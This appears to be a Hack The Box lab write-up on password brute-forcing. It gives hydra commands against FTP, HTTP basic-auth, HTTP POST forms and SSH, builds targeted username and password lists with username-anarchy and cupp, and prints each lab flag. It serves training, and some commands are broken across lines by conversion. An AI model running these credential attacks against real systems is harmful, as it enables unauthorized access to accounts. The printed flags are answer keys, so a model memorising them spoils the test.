#### Technical Methodology & Exploit Execution:

in the target machine (on b.gates user) – lets run
```bash
ls /home
```
to see who else is there:

There is 'm.gates' user as well.

Now as we can not assured that the FTP service is running on the default port –
lets confirm it does indeed runs on port 21:
netstat -antp | grep -i list


Good it does!

Lets bruteforce the ftp service using 'm.gates' user and the wordlist we saw at
'b.gates' home directory – 'rockyou-10.txt':
```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```
(apparently 'hydra' is pre-installed in the target machine)

Credentials found: 'm.gates:computer'.


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


Lets login to the ftp service using the obtained credentials:
ftp 127.0.0.1


Lets get the flag from the ftp server to the pwnbox, and take it:

*by doing 'get flag.txt' we overwrite the original flag there was on the target
machine. but we do not care about that flag anymore. *


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Capstone: Skills Assessment

> **Lab Question (Page 16)**: When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.
>
> **Flag / Answer**: `HTB{4lw4y5_ch4n63_d3f4ul7_p455w0rd5}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets access the target machine website:
http://<target-IP>:<target-port>


We are required to enter credentials.

Taking a look at burpsuite intercepted login request:

We are dealing with a HTTP GET request.


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### Passwords' section, including the '-C' flag

We will use the same dual username:password wordlist we used in the 'Default
Passwords' section, including the '-C' flag:
```bash
hydra -C /usr/share/seclists/Passwords/Default-
```
Credentials/ftp-betterdefaultpasslist.txt <target-IP> -s
<target-port> http-get /


The credentials are 'user:password' . Lets login:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


> **Lab Question (Page 18)**: Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?
>
> **Flag / Answer**: `HTB{c0mm0n_p455w0rd5_w1ll_4lw4y5_b3_h4ck3d!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets proceed with the 'Click Here to Login':

We get to an admin panel. Lets see a login request in burpsuite:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### We will need the 'rockyou' wordlist

#### Technical Methodology & Exploit Execution:

:
```bash
hydra -l user -P rockyou.txt -f <target-IP> -s <target-port>
```
http-post-form
"/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-
in'"


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


### Lets login

The credentials are 'user:harrypotter'
Lets login:


And we have the flag! (and some password policies)


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### Capstone: Skills Assessment

> **Lab Question (Page 21)**: As you now have the name of an employee from the previous skills assessment question, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also, try using the 'username-anarchy' tool to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.
>
> **Flag / Answer**: `HTB{4lw4y5_u53_r4nd0m_p455w0rd_63n3r470r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

so, the name of the employee from the previous skill assessment
question is 'Harry Potter' . Lets use 'username-anarchy' tool to generate a
considerable username wordlist, and then use the tool 'cupp' to generate
personalized password list.

Lets start with the username generation list.
We will clone the tool:
git clone https://github.com/urbanadventurer/username-
anarchy.git

then generate the wordlist using the command:
./username-anarchy/username-anarchy Harry Potter >
hpotter.txt


Username list 'hpotter.txt' is ready and contains 15 values.

Now for the password list:
Lets install 'cupp':
```bash
sudo apt install cupp
```


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


### > Surname

then
cupp -i

this time we will only provide first name, chars and numbers:
> First Name: Harry
> Surname:
> Nickname:
> Birthdate (DDMMYYYY):

> Partners) name:
> Partners) nickname:
> Partners) birthdate (DDMMYYYY):

> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):

> Pet's name:
> Company name:

> Do you want to add some key words about the victim? Y/[N]:
n
> Do you want to add special chars at the end of words?
Y/[N]: y
> Do you want to add some random numbers at the end of
words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y


### 'harry.txt' ready. Lets bruteforce

And off course, we reduce the wordlist based on the password policy:
sed -ri '/^.{,7}$/d' harry.txt;
sed -ri '/[!-/:-@\[-`\{-~]+/!d' harry.txt;
sed -ri '/[0-9]+/!d' harry.txt;


Now we have both the username list 'hpotter.txt' and the password list
'harry.txt' ready. Lets bruteforce:
```bash
hydra -L hpotter.txt -P harry.txt -u -f ssh://<target-
```
IP>:<target-port>


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### Lets take the flag

The credentials are 'harry.potter:H4rry!!!'

Lets ssh connect with the obtained credentials to the target machine:
```bash
ssh harry.potter@<target-IP> -p <target-port>
```
and enter the password

*
*

We are in!

Lets take the flag:


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


*_Figure 24.4 — Lab execution and output verification (Page 24)_*


### to see what other users there are on the system

> **Lab Question (Page 25)**: Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.
>
> **Flag / Answer**: `HTB{1_50l3mnly_5w34r_7h47_1_w1ll_u53_r4nd0m_p455w0rd5}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the target machine (on 'harry.potter' ssh session from previous
question) – lets run:
```bash
ls /home
```
to see what other users there are on the system:

'g.potter'.

Now lets see what services we can bruteforce:
netstat -antp | grep -i list


There is FTP service running on port 21. Lets bruteforce that (with hydra, which
also here is pre-installed on the target machine).
We will use the wordlist 'rockyou-30.txt we saw on the target machine
'harry.potter's home directory:
```bash
hydra -l g.potter -P rockyou-30.txt ftp://127.0.0.1
```


The ftp credentials 'g.potter:harry' were found.


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


### Lets login

Lets login:
ftp 127.0.0.1


We are in. lets get the flag from the ftp to the target machine and take it:


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


### Login Forms

> **Lab Question (Page 27)**: After successfully brute-forcing, and then logging into the target, what is the full flag you find?
>
> **Flag / Answer**: `HTB{W3b_L0gin_Brut3F0rc3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets open the login form in the browser:


Lets send some username and password, and intercept the request in
burpsuite:


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


### We will use the command

#### Technical Methodology & Exploit Execution:

```bash
hydra -l admin -P rockyou.txt -f <target-IP> -s <target-
```
port> http-post-form
"/:username=^USER^&password=^PASS^:F=Invalid credentials"


Credentials found! 'admin:zxcvbnm' . Lets login:


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


### Custom Wordlists

> **Lab Question (Page 29)**: After successfully brute-forcing, and then logging into the target, what is the full flag you find?
>
> **Flag / Answer**: `HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets open the login form in the browser:


As instructed by the section's guide – we are targeting 'Jame Smith'.
We will use 'username-anarchy' to generate designated username list, and
'cupp' to generate designated password list.

Username anarchy:
First lets install the tool:
```bash
sudo apt install ruby -y;
```
git clone https://github.com/urbanadventurer/username-
anarchy.git;
```bash
cd username-anarchy;
```


*


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


### Now lets create a username list based on 'Jane Smith' name

*


Now lets create a username list based on 'Jane Smith' name:
./username-anarchy Jane Smith > jane_smith_usernames.txt;
The output was saved to 'jane_smith_usernames.txt'.

CUPP:
Now lets generate the password list, lets download cupp (if not installed):
```bash
sudo apt install cupp -y
```


*
*


Then we start it:
cupp -i


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


*_Figure 30.4 — Lab execution and output verification (Page 30)_*


### we put the following details

we put the following details:
> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990

> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990

> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):

> Pet's name: Spot
> Company name: AHI

> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces
will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y


### We are also provided the company 'AHI' password policy

We have a wordlist 'jane.txt' which is 46246 words long.

